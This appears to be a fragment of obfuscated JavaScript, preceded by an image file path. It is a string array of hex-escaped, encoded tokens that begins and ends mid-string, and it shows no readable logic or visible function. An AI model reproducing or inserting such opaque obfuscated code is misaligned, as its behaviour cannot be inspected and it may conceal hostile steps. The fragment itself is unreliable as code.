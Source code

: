 6d\x6f\x2b\x57\x36\x4b\x75\x64\x59\x4b\x5a\x57\x52\x69','\x70\x4a\x5a\x64\x4b\x63\x4e\x63\x55\x6d\x6f\x70\x57\x50\x66\x2f\x57\x34\x6d\x56','\x46\x59\x42\x64\x4e\x53\x6b\x55\x76\x38\x6b\x43\x6f\x57','\x44\x78\x72\x4c\x73\x4e\x4b','\x6a\x53\x6f\x72\x57\x36\x56\x63\x49\x68\x34\x49\x57\x4f\x66\x75','\x70\x6d\x6f\x5a\x6e\x4a\x76\x66\x57\x51\x34','\x67\x48\x42\x63\x4d\x53\x6b\x79\x7a\x61','\x42\x68\x48\x4f\x42\x4d\x71','\x43\x32\x39\x54\x7a\x71','\x65\x59\x4a\x63\x47\x4